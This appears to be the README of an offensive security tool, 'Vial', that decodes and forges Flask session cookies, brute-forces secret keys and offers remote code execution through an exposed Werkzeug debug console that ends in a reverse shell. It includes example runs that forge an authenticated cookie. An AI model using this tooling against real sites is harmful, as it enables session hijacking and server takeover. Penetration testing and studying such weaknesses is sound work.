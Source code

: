 # The Vial Project

<p align="center">
    <a href="https://github.com/CopernicusPY/vial/stargazers"><img src="https://img.shields.io/github/stars/CopernicusPY/vial?colorA=363a4f&colorB=b7bdf8&style=for-the-badge"></a>
    <a href="https://github.com/CopernicusPY/vial/issues"><img src="https://img.shields.io/github/issues/CopernicusPY/vial?colorA=363a4f&colorB=f5a97f&style=for-the-badge"></a>
    <a href="https://github.com/CopernicusPY/vial/contributors"><img src="https://img.shields.io/github/contributors/CopernicusPY/vial?colorA=363a4f&colorB=a6da95&style=for-the-badge"></a>
</p>

Vial is a `blazing fast python framework` focused on exploiting [Flask](https://flask.palletsprojects.com/en/2.2.x/) applications. 

It allows efficient session cookie ["forging"](https://en.m.wikipedia.org/wiki/Session_hijacking) and decoding 

(Can be useful for understanding the applications structure). 

It also makes it possible to automatically obtain and bruteforce [session](https://flask.palletsprojects.com/en/2.2.x/quickstart/#sessions) keys.

## Introducing: Remote Code Execution

**Vial**'s new feature is the remote code execution utility that abuses [Werkzeug](https://werkzeug.palletsprojects.com/en/2.2.x/)'s [debug console](https://werkzeug.palletsprojects.com/en/2.2.x/debug/), when left activated in a production environment. 

The debugger's console is sometimes protected by a PIN which is generated in the servers side in a [deterministic](https://en.m.wikipedia.org/wiki/Deterministic_algorithm) way using a combination of public and possibly non-public information of the server/website project itself. 

To reverse the PIN these "secret" and "public" bits are required although can be obtained by exploiting other vulnerabilities such as **arbitary file read**/**path traversal** or through phishing campaigns (less common).

**Vial** also accepts already obtained application PIN's. After collecting the PIN it sends a malicious request to the target forcing him to connect to a previously started TCP Server giving the attacker a shell. 

(This can be achieved through manually interacting with the web browser although its better to just stay in your terminal isn't it?)

# Usage

Vial runs as a python module.

For a list of all possible options, run the following command

>$ python -m vial

## Fetching and Decoding session cookies

It is possible to locally decode session data since Flask cookies are **signed** rather than **encrypted**. For this you can select the `decode`  mode.

Session cookies can be obtained by inspecting HTTP requests using a proxy. The default name for the cookies is simply, `"session"`.

>$ python -m vial

>**[?]** Select an action [**decode**/**encode**] **decode** 

>**[?]** Enter the session cookie **eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsb2dnZWRJbiI6ZmFsc2UsImlhdCI6MTY3MDc5MDQyNn0.X0kPhJtL7koucxI_aRBaTee8LoTb23TaV9YteTSb9PU** 

{"loggedIn": false} 

You can also use Vial's automatic session fetching utility by passing the `--from` argument.  

> **Note** 

> Not all pages of a web application return a session.  

> Make sure to pass a **URL** that it does. 

>$ python -m vial --from "https://example.com/login" 

>**[?]** Select an action [**decode**/**encode**] **decode** \ 

>**[INFO]** Server returned **HTTP 302** (**FOUND**) \ 

>**[INFO]** Succesfully fetched session cookie: 

>**eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsb2dnZWRJbiI6ZmFsc2UsImlhdCI6MTY3MDc5MDQyNn0.X0kPhJtL7koucxI_aRBaTee8LoTb23TaV9YteTSb9PU** 

>{"loggedIn": false} 

## Signing (Session Forging)

Once you've obtained the server's secret key that was used to encode the session data, you'll be able to forge your own. For this, you can use the `encode` mode.

>$ python -m vial

>**[?]** Select an action [**decode**/**encode**] **encode**

>**[?]** Enter the session data to encode **"{'loggedIn': True}"**

>**[?]** Enter the secret key **secret-key**

>**[INFO]** Succesfully forged the cookie

>**eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsb2dnZWRJbiI6dHJ1ZSwiaWF0IjoxNjcwNzkxNTQxfQ.c1HQAnTKOcA7chGpgwEndM4kuA2O-ap_nJWdLNmijw0**
